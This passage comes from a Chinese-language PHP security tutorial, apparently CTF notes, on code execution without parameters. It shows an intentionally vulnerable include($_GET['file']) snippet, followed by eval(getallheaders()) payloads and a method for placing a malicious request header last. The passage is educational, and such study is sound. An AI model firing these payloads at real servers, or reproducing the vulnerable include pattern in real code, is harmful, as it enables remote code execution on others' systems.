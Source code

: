 ##### getallheaders

示例代码

源代码

```
<?php
highlight_file(__FILE__);

$file = $_GET['file'];
if(isset($file) && !preg_match('/base|rot/i',$file)){
    @include($file);
}else{
    die("nope");
}
?>
```

**payload:**

```
eval(array_pop(getallheaders()));
```

```
请求头:
因为得是在最后一个，所以用字母让他排到最后,例如：
ZZZZZ=phpinfo();

或者使用
eval(pos(next(array_reverse(getallheaders())));
```

![](https://cdn.nlark.com/yuque/0/2025/png/33715413/1755831399384-6440a23f-a755-4cce-ac79-33d4995af9ec.png)

注意看，此时我们通过print成功输出了getallheaders的数组，并构造了恶意请求头ZZZZZZ，看图可得其位于最后一位

![](https://cdn.nlark.com/yuque/0/2025/png/33715413/1755831399872-afa76283-389c-4873-9d14-a7ea62bd2c51.png)

此时我们可以通过end函数成功提取到了我们构造的ZZZZZ的值

![](https://cdn.nlark.com/yuque/0/2025/png/33715413/1755831401220-12d84971-2575-4628-a146-f7d3238bbc03.png)

将print换成eval即可发现我们成功执行了phpinfo

##### get_defined_vars

```
获取全局变量$_POST   $_GET    $_FILE    $_COOKIE
```

![](https://cdn.nlark.com/yuque/0/2025/png/33715413/1755831400872-a45fac34-7fe5-42d8-9714-25dda429e1f3.png)

由图可得，我们获取了所有的全局变量

![](https://cdn.nlark.com/yuque/0/2025/png/33715413/1755831400992-6c639d21-06cc-4bfb-88ba-a06881fb201c.png)
